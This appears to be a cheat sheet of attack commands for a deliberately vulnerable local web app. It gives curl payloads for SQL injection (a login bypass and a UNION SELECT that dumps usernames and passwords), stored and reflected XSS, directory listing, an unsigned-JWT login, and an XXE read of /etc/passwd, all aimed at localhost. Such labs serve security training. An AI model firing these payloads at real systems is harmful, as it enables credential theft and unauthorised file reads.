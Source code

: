 # SQL Injection

## Products

### Show All

```bash
  curl "http://localhost:8081/api/products/test'%20OR%201=1--%20-"
```

### Union

```bash
  curl 'http://localhost:8081/api/products/Apple'"'"'%20UNION%20SELECT%20username,password%20FROM%20users--%20-'
```

## Login

### Login as admin

```bash
  curl -X POST 'http://localhost:8081/api/login?username=test%27%20OR%201%3D1%20LIMIT%201--%20-&password=test'
```
# XSS

## Stored

```bash
  curl -X PUT -d '{"description":"<img src=x onerror=alert(1)>"}' -H "Content-Type: application/json" http://localhost:8081/api/products/Apple
```

## Reflected

```bash
  http://localhost:8080/<img src=x onerror=alert(1)>
```

# Directory Listing

```bash
  curl "http://localhost:8081/images/"
```

# Unsigned JWT Token

```bash
  curl -X POST 'http://localhost:8081/api/login?username=admin&password=adminpassword'
```

# XEE

```bash
    curl -X POST \
     -H "Content-Type: application/xml" \
     --data '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE cart [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<cart>
<item>&xxe;</item>
</cart>' \
http://localhost:8081/api/cart
```